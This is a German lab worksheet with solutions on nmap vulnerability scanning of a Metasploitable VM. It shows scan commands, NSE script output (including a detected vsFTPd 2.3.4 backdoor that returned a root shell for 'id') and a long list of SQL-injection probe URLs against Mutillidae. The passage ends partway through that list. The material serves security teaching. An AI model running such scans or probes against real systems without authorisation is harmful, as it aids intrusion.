


# Vulnerability Scan und Login Vulnerability

## Vulnerability Scan

### Optionen


#### Aufgabe

Analysiere die Bedeutung der folgenden Optionen:
```
$ nmap -Pn -sS -sV -sC -oN nmap_default.txt 10.10.92.153
```
Was führt nmap in diesem Fall für einen Scan aus? Wie viele Ports werden gescannt. Scanne mit diesem Befehl die metasploitable VM.

#### Lösung

- Pn — Host Discovery ausschalten
- -sS — SYN-Scan
- sV — Service-/Versions-Erkennung
- sC — Default NSE Scripts
- oN — Ausgabe in Datei speichern
- Standardscan - 1000 häufigsten Ports


### Vulnerability Scan

#### Aufgabe

nmap verfügt über eine Erweiterung über die Lua Scripts ausgeführt werden können. Die installierten Lua Scripts befinden sich im Directory /usr/share/nmap/scripts.

Aufgabe 1: Verwende die Option -sC um die Standard-Skripte auszuführen, zusätzlich beschränkt auf die 100 häufigsten Ports (Option -F) aus.

Anmerkung: nmap kann wertvolle Hinweise auf Schwachstellen liefern, ein vollwertiger vulnerability scaner ist es allerdings nicht, dafür gibt es eigene darauf spezialisierte Tools (z.B.: gvm … Greenbone Vulnerability Manager).
Aufgabe 2: verwende die Option --script um ausgewählte Skripte zu starten. Z.B. --script http-title,mysql-info,banner. Probiere ca. 5 Skripte aus. Nimm die Metasploitable VM als Ziel.

Liste der Skripte
Aufgabe 3: finde ein weiteres Skript das bei der Metasploitable VM sinnvolle Ergebnisse liefert

Aufgabe 4: Die nmap Skripte sind in Kategorien eingeteilt, es gibt z.B. eine Kategorie vuln (Siehe Kategorie vuln). Verwende die Option --script=vuln um alle Skripte dieser Kategorie zu starten. Verwende als Ziel die Metasploitable VM. Dieser Scan dauert sehr lange, schränke ein auf die Ports von FTP und HTTP.

#### Lösung

##### Aufgabe 1

Ausführung:
```
nmap -sC -F 192.168.1.53
```
-sC führt die Scripts aus
-F Scannt nur die 100 wichtigsten Ports

Ausgabe:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-15 06:00 EST
Nmap scan report for 192.168.1.53
Host is up (0.0018s latency).
Not shown: 82 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.1.51
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp   open  telnet
25/tcp   open  smtp
|_ssl-date: 2025-12-15T11:00:45+00:00; +5s from scanner time.
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
53/tcp   open  domain
| dns-nsid: 
|_  bind.version: 9.4.2
80/tcp   open  http
|_http-title: Metasploitable2 - Linux
111/tcp  open  rpcbind
| rpcinfo: 
|   program version    port/proto  service
|   100003  2,3,4       2049/tcp   nfs
|_  100003  2,3,4       2049/udp   nfs
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
513/tcp  open  login
514/tcp  open  shell
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
| mysql-info: 
|   Protocol: 10
|   Version: 5.0.51a-3ubuntu5
|   Thread ID: 16
|   Capabilities flags: 43564
|   Some Capabilities: Support41Auth, SupportsTransactions, ConnectWithDatabase, Speaks41ProtocolNew, SupportsCompression, LongColumnFlag, SwitchToSSLAfterHandshake
|   Status: Autocommit
|_  Salt: [Ttj6mDL0H[rK_}vZ>ho
5432/tcp open  postgresql
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
|_ssl-date: 2025-12-15T11:00:29+00:00; +3s from scanner time.
5900/tcp open  vnc
| vnc-info: 
|   Protocol version: 3.3
|   Security types: 
|_    VNC Authentication (2)
6000/tcp open  X11
8009/tcp open  ajp13
|_ajp-methods: Failed to get a valid response for the OPTION request
MAC Address: 00:0C:29:F3:43:E3 (VMware)

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2025-12-15T06:00:14-05:00
|_clock-skew: mean: 1h15m04s, deviation: 2h30m00s, median: 4s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Nmap done: 1 IP address (1 host up) scanned in 46.13 seconds
```

##### Aufgabe 2

Befehl:
```
nmap --script http-title,http-enum,ssh-hostkey,ssl-cert,smb-os-discovery 192.168.1.53
```

http-title
Liest den Titel einer Webseite aus → schneller Hinweis auf Anwendung oder Dienst.

http-enum
Sucht nach bekannten Webverzeichnissen und Anwendungen → findet Admin-Panels, CMS usw.

ssh-hostkey
Zeigt SSH-Hostschlüssel → nützlich zur Identifikation und Erkennung von Man-in-the-Middle-Risiken.

ssl-cert
Liest SSL/TLS-Zertifikate aus → Infos zu Ablaufdatum, Aussteller und Fehlkonfigurationen.

smb-os-discovery
Erkennt Betriebssystem und Hostinformationen über SMB → besonders relevant bei Windows-Systemen.

Ausgabe:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-15 06:12 EST
Nmap scan report for 192.168.1.53
Host is up (0.00046s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp   open  telnet
25/tcp   open  smtp
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Issuer: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2010-03-17T14:07:45
| Not valid after:  2010-04-16T14:07:45
| MD5:   dcd9:ad90:6c8f:2f73:74af:383b:2540:8828
|_SHA-1: ed09:3088:7066:03bf:d5dc:2373:99b4:98da:2d4d:31c6
53/tcp   open  domain
80/tcp   open  http
|_http-title: Metasploitable2 - Linux
| http-enum: 
|   /tikiwiki/: Tikiwiki
|   /test/: Test page
|   /phpinfo.php: Possible information file
|   /phpMyAdmin/: phpMyAdmin
|   /doc/: Potentially interesting directory w/ listing on 'apache/2.2.8 (ubuntu) dav/2'
|   /icons/: Potentially interesting folder w/ directory listing
|_  /index/: Potentially interesting folder
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Issuer: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2010-03-17T14:07:45
| Not valid after:  2010-04-16T14:07:45
| MD5:   dcd9:ad90:6c8f:2f73:74af:383b:2540:8828
|_SHA-1: ed09:3088:7066:03bf:d5dc:2373:99b4:98da:2d4d:31c6
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
|_http-title: Apache Tomcat/5.5
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /admin/login.html: Possible admin folder
|   /admin/admin.html: Possible admin folder
|   /admin/account.html: Possible admin folder
|   /admin/admin_login.html: Possible admin folder
|   /admin/home.html: Possible admin folder
|   /admin/admin-login.html: Possible admin folder
|   /admin/adminLogin.html: Possible admin folder
|   /admin/controlpanel.html: Possible admin folder
|   /admin/cp.html: Possible admin folder
|   /admin/index.jsp: Possible admin folder
|   /admin/login.jsp: Possible admin folder
|   /admin/admin.jsp: Possible admin folder
|   /admin/home.jsp: Possible admin folder
|   /admin/controlpanel.jsp: Possible admin folder
|   /admin/admin-login.jsp: Possible admin folder
|   /admin/cp.jsp: Possible admin folder
|   /admin/account.jsp: Possible admin folder
|   /admin/admin_login.jsp: Possible admin folder
|   /admin/adminLogin.jsp: Possible admin folder
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|   /admin/view/javascript/fckeditor/editor/filemanager/connectors/test.html: OpenCart/FCKeditor File upload
|   /admin/includes/FCKeditor/editor/filemanager/upload/test.html: ASP Simple Blog / FCKeditor File Upload
|   /admin/jscript/upload.html: Lizard Cart/Remote File upload
|_  /webdav/: Potentially interesting folder
MAC Address: 00:0C:29:F3:43:E3 (VMware)

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2025-12-15T06:13:02-05:00

Nmap done: 1 IP address (1 host up) scanned in 71.75 seconds
```

##### Aufgabe 3

Eingabe:
```
nmap --script ftp-anon 192.168.1.53
```

Das Nmap-Skript ftp-anon überprüft, ob ein FTP-Server anonyme Logins erlaubt (Benutzer: anonymous, beliebiges Passwort).

Ausgabe:
```
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
```

##### Ausgabe 4

Eingabe:
```
nmap --script=vuln -p 21,80 192.168.1.53
```

--script=vuln
Führt alle NSE-Skripte der Kategorie „vuln“ aus (bekannte Schwachstellenchecks).

-p 21,80
Beschränkt den Scan auf:

Port 21 → FTP

Port 80 → HTTP
→ deutlich schneller als ein vollständiger Scan

Ausgabe:
```
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  BID:48539  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|       https://www.securityfocus.com/bid/48539
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
|_      http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
80/tcp open  http
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-trace: TRACE is enabled
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-sql-injection: 
|   Possible sqli for queries:
|     http://192.168.1.53:80/dav/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=N%3BO%3DD%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=user-poll.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=show-log.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=set-background-color.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=text-file-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=home.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?do=toggle-security%27%20OR%20sqlspider&page=home.php
|     http://192.168.1.53:80/mutillidae/index.php?page=browser-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=dns-lookup.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=text-file-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=show-log.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=view-someones-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=login.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=captured-data.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=add-to-your-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=notes.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=secret-administrative-pages.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=source-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=usage-instructions.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=documentation%2Fhow-to-access-Mutillidae-over-Virtual-Box-network.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=user-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=documentation%2Fvulnerabilities.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=view-someones-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=change-log.htm%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=framing.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=source-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=register.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=credits.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?do=toggle-hints%27%20OR%20sqlspider&page=home.php
|     http://192.168.1.53:80/mutillidae/index.php?page=html5-storage.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=site-footer-xss-discussion.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=arbitrary-file-inclusion.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=capture-data.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=password-generator.php%27%20OR%20sqlspider&username=anonymous
|     http://192.168.1.53:80/mutillidae/index.php?page=php-errors.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=credits.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=user-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=login.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=pen-test-tool-lookup.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=installation.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=add-to-your-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=D%3BO%3DD%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=M%3BO%3DD%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=S%3BO%3DD%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/dav/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=user-poll.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=show-log.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=set-background-color.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=text-file-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=home.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=browser-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=dns-lookup.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=text-file-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=show-log.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=view-someones-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=login.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=captured-data.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=secret-administrative-pages.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=arbitrary-file-inclusion.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=documentation%2Fhow-to-access-Mutillidae-over-Virtual-Box-network.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=user-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=documentation%2Fvulnerabilities.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=pen-test-tool-lookup.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=change-log.htm%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=framing.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=add-to-your-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=register.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=credits.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=source-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=html5-storage.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=site-footer-xss-discussion.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=source-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=capture-data.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=password-generator.php%27%20OR%20sqlspider&username=anonymous
|     http://192.168.1.53:80/mutillidae/index.php?page=credits.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=user-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=login.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=add-to-your-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=installation.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=view-someones-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=user-poll.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=show-log.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=set-background-color.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=text-file-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=home.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=browser-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=dns-lookup.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=text-file-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=show-log.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=view-someones-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=login.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=captured-data.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=secret-administrative-pages.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=add-to-your-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=documentation%2Fhow-to-access-Mutillidae-over-Virtual-Box-network.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=user-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=documentation%2Fvulnerabilities.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=view-someones-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=change-log.htm%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=framing.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=source-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=register.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=credits.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=html5-storage.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=site-footer-xss-discussion.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=arbitrary-file-inclusion.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=capture-data.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=password-generator.php%27%20OR%20sqlspider&username=anonymous
|     http://192.168.1.53:80/mutillidae/index.php?page=source-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=credits.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=user-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=login.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=pen-test-tool-lookup.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=installation.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=add-to-your-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=user-poll.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=show-log.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=set-background-color.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=text-file-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=home.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=browser-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=dns-lookup.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=text-file-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=show-log.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=view-someones-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=login.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=captured-data.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=secret-administrative-pages.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=arbitrary-file-inclusion.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=documentation%2Fhow-to-access-Mutillidae-over-Virtual-Box-network.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=user-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=documentation%2Fvulnerabilities.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=pen-test-tool-lookup.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=change-log.htm%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=framing.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=add-to-your-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=register.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=credits.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=source-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=html5-storage.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=site-footer-xss-discussion.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=source-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=capture-data.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=password-generator.php%27%20OR%20sqlspider&username=anonymous
|     http://192.168.1.53:80/mutillidae/index.php?page=credits.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=user-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=login.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=add-to-your-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=installation.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/?page=view-someones-blog.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=user-poll.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=show-log.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=set-background-color.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=text-file-viewer.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=home.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=browser-info.php%27%20OR%20sqlspider
|     http://192.168.1.53:80/mutillidae/index.php?page=dns-lookup.php%27%20OR%20sqlspider
